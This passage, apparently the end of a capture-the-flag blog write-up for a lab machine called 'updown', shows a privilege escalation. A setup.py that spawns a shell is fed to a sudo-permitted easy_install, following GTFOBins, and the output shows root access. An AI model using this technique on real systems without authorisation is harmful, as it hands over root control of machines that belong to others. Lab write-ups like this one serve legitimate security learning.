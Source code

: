 With the help of [GTFobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) we can abuse this binary to get the root access.

```bash
developer@updown:~$ sudo /usr/local/bin/easy_install ^C
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.zMbAjkFXvF
Writing /tmp/tmp.zMbAjkFXvF/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.zMbAjkFXvF/egg-dist-tmp-AIs2rL
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we get the root access.

Thank you for reading my blog; I hope you enjoyed it.
